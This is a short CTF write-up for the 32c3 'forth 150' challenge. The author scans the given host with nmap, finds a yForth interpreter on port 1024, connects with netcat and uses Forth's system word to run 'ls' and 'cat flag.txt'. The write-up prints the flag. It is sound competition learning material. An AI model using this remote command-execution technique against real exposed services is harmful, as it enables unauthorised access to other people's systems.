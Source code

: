 Wish I had more time to play around with [32c3 CTF](https://32c3ctf.ccc.ac/) since the challenges seemed pretty awesome. Anyways, between school and other stuff I had to deal with, this was the only challenge I had the chance of solving.   It was pretty easy and straight forward.

## forth 150

**Challenge**:

> **<span style="color: #ff0000;">Connect to 136.243.194.49:1024 and get a shell.</span>**

  Let's take a closer look to the service running at port 1024.

<pre class="lang:default decode:true">sudo nmap -sV -p 1024 136.243.194.49
</pre>

  We get the result:

<pre class="lang:default decode:true">Starting Nmap 6.40 ( http://nmap.org ) at 2015-12-29 20:37 EET
Nmap scan report for static.49.194.243.136.clients.your-server.de (136.243.194.49)
Host is up (0.057s latency).
PORT     STATE SERVICE VERSION
1024/tcp open  kdm?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port1024-TCP:V=6.40%I=7%D=12/29%Time=5682D2F6%P=x86_64-pc-linux-gnu%r(N
SF:ULL,D5,"yForth\?\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x20\x20Luca
SF:\x20Padovani\r\nThis\x20program\x20comes\x20with\x20ABSOLUTELY\x20NO\x2
SF:0WARRANTY\.\r\nThis\x20is\x20free\x20software,\x20and\x20you\x20are\x20
SF:welcome\x20to\x20redistribute\x20it\r\nunder\x20certain\x20conditions;\
SF:x20see\x20LICENSE\x20for\x20details\.\r\n")%r(GenericLines,E5,"yForth\?
SF:\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x20\x20Luca\x20Padovani\r\n
SF:This\x20program\x20comes\x20with\x20ABSOLUTELY\x20NO\x20WARRANTY\.\r\nT
SF:his\x20is\x20free\x20software,\x20and\x20you\x20are\x20welcome\x20to\x2
SF:0redistribute\x20it\r\nunder\x20certain\x20conditions;\x20see\x20LICENS
SF:E\x20for\x20details\.\r\nok\r\nok\r\nok\r\nok\r\n")%r(GetRequest,100,"y
SF:Forth\?\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x20\x20Luca\x20Padov
SF:ani\r\nThis\x20program\x20comes\x20with\x20ABSOLUTELY\x20NO\x20WARRANTY
SF:\.\r\nThis\x20is\x20free\x20software,\x20and\x20you\x20are\x20welcome\x
SF:20to\x20redistribute\x20it\r\nunder\x20certain\x20conditions;\x20see\x2
SF:0LICENSE\x20for\x20details\.\r\n\[GET\]\x20error\(2\):\x20unknown\x20wo
SF:rd\.\r\nok\r\nok\r\nok\r\n")%r(HTTPOptions,104,"yForth\?\x20v0\.2\x20\x
SF:20Copyright\x20\(C\)\x202012\x20\x20Luca\x20Padovani\r\nThis\x20program
SF:\x20comes\x20with\x20ABSOLUTELY\x20NO\x20WARRANTY\.\r\nThis\x20is\x20fr
SF:ee\x20software,\x20and\x20you\x20are\x20welcome\x20to\x20redistribute\x
SF:20it\r\nunder\x20certain\x20conditions;\x20see\x20LICENSE\x20for\x20det
SF:ails\.\r\n\[OPTIONS\]\x20error\(2\):\x20unknown\x20word\.\r\nok\r\nok\r
SF:\nok\r\n")%r(RTSPRequest,104,"yForth\?\x20v0\.2\x20\x20Copyright\x20\(C
SF:\)\x202012\x20\x20Luca\x20Padovani\r\nThis\x20program\x20comes\x20with\
SF:x20ABSOLUTELY\x20NO\x20WARRANTY\.\r\nThis\x20is\x20free\x20software,\x2
SF:0and\x20you\x20are\x20welcome\x20to\x20redistribute\x20it\r\nunder\x20c
SF:ertain\x20conditions;\x20see\x20LICENSE\x20for\x20details\.\r\n\[OPTION
SF:S\]\x20error\(2\):\x20unknown\x20word\.\r\nok\r\nok\r\nok\r\n")%r(DNSVe
SF:rsionBindReq,D5,"yForth\?\x20v0\.2\x20\x20Copyright\x20\(C\)\x202012\x2
SF:0\x20Luca\x20Padovani\r\nThis\x20program\x20comes\x20with\x20ABSOLUTELY
SF:\x20NO\x20WARRANTY\.\r\nThis\x20is\x20free\x20software,\x20and\x20you\x
SF:20are\x20welcome\x20to\x20redistribute\x20it\r\nunder\x20certain\x20con
SF:ditions;\x20see\x20LICENSE\x20for\x20details\.\r\n");

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.35 seconds
</pre>

  Interesting, so it seems like there's some kind of service called **[yForth](http://dev.man-online.org/man1/yforth/)** is running, which I've never heard of before. A quick Google search reveals that this is actually a small interpreter for a programming language called [Forth](https://en.wikipedia.org/wiki/Forth_(programming_language)). Well, it's pretty obvious after this point, there should be a way to run shell commands on Forth. Let's try it out.   Let's connect to our target.

<pre class="lang:default decode:true ">nc 136.243.194.49:1024</pre>

  Run a -ls command in **Forth language** to see where we are.

<pre class="lang:default decode:true">s" ls" system</pre>

  We see a file called "flag.txt". We run a cat command

<pre class="lang:default decode:true ">s" cat flag.txt" system</pre>

Et Voila! **Flag: _32C3_a8cfc6174adcb39b8d6dc361e888f17b_** ![](http://i1.wp.com/cagin.me/wp-content/uploads/2015/12/Screenshot-from-2015-12-28-143539-e1451415164488.png)

